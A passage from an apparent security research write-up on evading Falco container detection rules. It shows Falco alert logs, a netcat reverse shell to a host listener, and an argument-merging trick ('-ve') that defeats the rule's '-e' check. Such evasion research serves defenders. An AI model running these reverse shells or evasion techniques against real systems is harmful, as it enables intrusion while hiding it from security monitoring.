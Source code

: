 ```
[Falco]
19:19:39.456461463: Warning Netcat runs inside container that allows remote code execution (user=root user_loginuid=-1 command=nc 172.17.0.1 443 -e /bin/bash container_id=7917d5e18fd8 container_name=sleepy_mcclintock image=sshayb/fuber:latest) k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8 k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8
19:19:39.460933949: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8 process=nc parent=bash cmdline=nc 172.17.0.1 443 -e /bin/bash terminal=34816 container_id=7917d5e18fd8 image=sshayb/fuber fd.name=172.17.0.2:55110->172.17.0.1:443 fd.num=0 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8
```
We have already bypassed the second triggered rule and it is trivial to bypass the **Netcat Remote Code Execution in Container** rule because it depends on _proc.name_ comparison. Still, symlinks and naming aside, we see another opportunity to bypass this rule.

One of the rule conditions relies on the comparison of command line parameters: `and (proc.args contains "-e" or proc.args contains "-c")`. While _-e_ and _-c_ flags are imperative for post-connect command execution, simple argument stapling will defeat the "contains" operator logic. Here, I use a verbosity flag for obfuscation:
```
[Container]
root@7917d5e18fd8:/tmp# nc 172.17.0.1 443 -ve "/bin/bash"
172.17.0.1: inverse host lookup failed: Unknown host
(UNKNOWN) [172.17.0.1] 443 (?) open
-----
[Host]
$ sudo nc -nlvp 443
[sudo] password for tutorial: 
Ncat: Version 7.50 ( https://nmap.org/ncat )
Ncat: Listening on :::443
Ncat: Listening on 0.0.0.0:443
Ncat: Connection from 172.17.0.2.
Ncat: Connection from 172.17.0.2:50084.
hostname
7917d5e18fd8
-----
[Falco]
19:52:03.184973672: Notice Network tool launched in container (user=root user_loginuid=-1 command=nc 172.17.0.1 443 -ve /bin/bash parent_process=bash container_id=7917d5e18fd8 container_name=sleepy_mcclintock image=sshayb/fuber:latest) k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8 k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8
19:52:03.235157399: Warning Redirect stdout/stdin to network connection (user=root user_loginuid=-1 k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8 process=nc parent=bash cmdline=nc 172.17.0.1 443 -ve /bin/bash terminal=34816 container_id=7917d5e18fd8 image=sshayb/fuber fd.name=172.17.0.2:50084->172.17.0.1:443 fd.num=0 fd.type=ipv4 fd.sip=172.17.0.1) k8s.ns=<NA> k8s.pod=<NA> container=7917d5e18fd8
```
Even though Falco emits two events, the first rule is different now, which means we successfully bypassed **Netcat Remote Code Execution in Container**. Rule **Launch Suspicious Network Tool in Container** is of NOTICE priority (detection downgrade), relies on _proc.name_ comparison in `network_tool_binaries` list, and is therefore bypassable through traditional means. Among other things, this exercise points on Falco's correct logic to report the higher-priority event if multiple rules trigger as a result of the same call. But in the context of this discussion, the more important point is having another evasion technique on hand through collation of the command line arguments.


[^1]: https://man7.org/linux/man-pages/man2/dup2.2.html
[^2]: https://hub.docker.com/repository/docker/sshayb/fuber
[^3]: https://github.com/worawit/CVE-2021-3156/blob/main/exploit_nss.py
[^4]: https://sysdig.com/blog/cve-2021-3156-sudo-falco/
[^5]: https://falco.org/docs/rules/supported-fields/
[^6]: https://braiins.com/stratum-v2
[^7]: https://github.com/draios/sysdig/pull/655/commits/209888d7f37c4357b164ca12248a38bac9de2e4b
[^8]: https://www.youtube.com/watch?v=rBqBrYESryY
[^9]: https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS